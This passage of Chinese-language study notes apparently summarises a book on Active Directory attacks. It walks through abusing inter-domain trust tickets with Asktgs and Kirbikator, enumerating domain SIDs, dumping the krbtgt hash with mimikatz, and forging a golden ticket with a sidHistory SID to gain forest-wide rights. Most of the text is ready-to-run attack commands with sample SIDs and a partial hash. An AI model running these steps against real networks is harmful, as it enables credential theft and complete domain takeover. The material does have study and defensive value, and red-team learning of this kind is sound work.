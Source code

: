 接下来使用test.kirbi的信任票据获取目标域中目标服务的TGS并保存到文件中。

```powershell
Asktgs test.kirbi CIFS/DC.test.com
```

注入TGS到内存：

```powershell
Kirbikator lsa CIFS.DC.test.com.kirbi
```

最后应该就可以访问目标服务了：

```powershell
dir \\dc.test.com\c$
```

#### 利用krbtgt散列值获取目标域的权限

使用mimikatz可以在构建黄金票据时设置sidHistory，因此如果攻击者获得了林内任意域的krbtgt散列值，就可以利用sidHistory获得该林的完整权限。

首先可以在pc.sub.test.com上使用普通域用户权限获取当前域和目标域的SID，这里可以使用PowerView或者：

```powershell
wmic useraccount get name,sid
# whoami /user
# adfind.exe -sc u:test|findstr sid
# powerview
```

在域控上使用mimikatz获取krbtgt散列值有两种方法：

```powershell
mimikatz.exe privilege::debug "lsadump::lsa /patch /user:krbtgt" sekurlsa::krbtgt exit
```

或：

```powershell
sekurlsa::krbtgt
```

> 书上说这是两种方式？？？

然后在子域计算机上普通用户权限构造并注入黄金票据：

```powershell
mimikatz "Kerberos::golden /user:Administrator /domain:sub.test.com /sid:S-1-5-21-760703389-4049654021-3164156691 /sids:S-1-5-21-1768352640-692844612-1315714220-519 /krbtgt:7ca9fc3b5aa4776bfc2964b36f5 /ptt" exit
```

上面的参数说明：

* /user 指定用户名
* /domain 指定当前域名
* /sid 当前域的SID
* /sids 目标域的SID
* /krbtgt 指定krbtgt的散列值
* ptt表示将票据注入内存
